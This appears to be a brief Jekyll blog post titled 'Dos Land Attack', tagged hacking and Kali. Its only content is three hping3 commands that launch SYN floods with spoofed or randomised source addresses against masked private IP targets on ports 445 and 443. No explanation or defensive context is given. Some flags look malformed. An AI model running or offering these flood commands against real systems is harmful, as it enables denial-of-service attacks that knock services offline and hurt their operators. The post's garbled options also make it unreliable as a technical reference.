 ```yaml
---
layout: post
title: Dos Land Attack
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: Hping3
fullview: true
comments: true
---
```


{% highlight yaml %}
$ hping3 -V -C 10000000 -d 120 -S -10 64 -p 445 -S 445 --flood --rand-source 192.168.xxx.xxx
$ hping3 -i u1000 -S -p 443 192.168.xxx.xxx
$ hping3 -q -n 10.0.0.1 -S -s 53 --keep -p 445 --flood 192.168.xxx.xxx
{% endhighlight %}
